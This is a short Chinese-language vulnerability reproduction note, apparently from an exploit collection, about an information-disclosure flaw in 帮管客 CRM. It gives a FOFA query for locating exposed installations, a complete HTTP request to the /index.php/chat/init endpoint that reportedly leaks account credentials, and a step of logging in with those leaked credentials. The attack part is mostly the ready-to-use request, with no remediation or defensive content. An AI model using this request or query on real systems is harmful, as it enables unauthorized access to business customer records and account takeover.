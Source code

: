 # 帮管客CRM init 信息泄露漏洞

# 一、漏洞简介
帮管客CRM是一款集客户档案、销售记录、业务往来等功能于一体的客户管理系统。帮管客CRM客户管理系统，客户管理，从未如此简单，一个平台满足企业全方位的销售跟进、智能化服务管理、高效的沟通协同、图表化.帮管客CRM init 信息泄露漏洞

# 二、影响版本
+ 帮管客CRM

# 三、资产测绘
+ fofa`app="帮管客-CRM"`
+ 特征

![1706689730844-244c90a3-963a-47a3-ab90-419f4b5c87bc.png](./img/qSUgLfGAWWht2e5C/1706689730844-244c90a3-963a-47a3-ab90-419f4b5c87bc-199793.png)

# 四、漏洞复现
```plain
GET /index.php/chat/init HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

![1707102932058-96647d60-8fd3-4db1-8d73-867b3eb902da.png](./img/qSUgLfGAWWht2e5C/1707102932058-96647d60-8fd3-4db1-8d73-867b3eb902da-984311.png)

使用泄漏的账号密码登陆系统

![1707103077320-0d5620ba-3942-4301-94bb-a7b11dd1faae.png](./img/qSUgLfGAWWht2e5C/1707103077320-0d5620ba-3942-4301-94bb-a7b11dd1faae-189968.png)



> 更新: 2024-02-29 23:55:41  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/mc3s6wuyw1qn9n0t>